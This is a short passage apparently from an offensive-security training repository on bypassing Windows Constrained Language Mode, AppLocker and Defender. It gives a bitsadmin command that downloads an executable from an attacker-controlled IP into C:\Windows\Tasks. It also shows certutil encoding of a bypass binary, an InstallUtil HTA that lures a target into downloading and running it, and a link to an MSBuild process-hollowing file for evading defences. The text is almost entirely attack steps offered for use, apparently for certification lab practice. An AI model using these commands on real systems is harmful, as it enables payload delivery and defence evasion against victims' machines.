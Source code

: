 ## InstallUtil (installutil.hta)

*Note: If* `curl` *is unavailable on the target system, use* `bitsadmin` *as an alternative:*

- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile a C# executable that implements a custom PowerShell runspace.

- Convert the compiled executable to a text file using `certutil`:

  - `certutil -encode clm-bypass.exe file.txt`

- Utilize the InstallUtil template to prompt the target to download the `file.txt` file, initiating the execution process.

## MSBuild (msbuild.hta)

- Leverage the `hollow.xml` file, available at [hollow.xml](https://github.com/Extravenger/OSEPlayground/blob/main/03%20-%20CLM%20%26%20Applocker%20Bypass/3%20-%20MSBuild/hollow.xml), to bypass Windows Defender and AppLocker default rules.
